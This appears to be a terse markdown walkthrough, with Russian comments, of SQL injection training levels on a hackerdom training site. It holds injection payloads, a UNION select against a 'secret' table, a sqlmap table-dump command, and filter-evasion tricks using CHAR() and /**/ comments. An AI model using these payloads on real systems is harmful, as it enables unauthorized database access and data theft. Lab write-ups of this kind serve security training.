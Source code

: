 ### 1
```
SELECT * FROM users WHERE id=12
```
### 2
```
' or id=9 --'
```

### 3
```
' or id=13 -- 
```

### 4
```
' UNION select * from secret  -- 
```

### 5
```
sqlmap -u https://sql.training.hackerdom.ru/5sdfkjsdk.php?text= --random-agent -D sql_level5 --tables _t secrets --columns -dump

```

### 6

```
0 or login=CHAR(103,111,100) 

Нам запретили кавычки поэтому жостаем бога вот таким способом
```

### 7 
```
0/**/union/**/select/**/*/**/from/**/users/**/where/**/login/**/like/**/0x25676525

Запретили вообще всмеЁ поэтому выкручивемся, ибо пробелы можно записывать как /**/ 

```
ы
### 8 
Дальше прям душно.  ![[1.png]] Вот пруфы, что дошел
```

```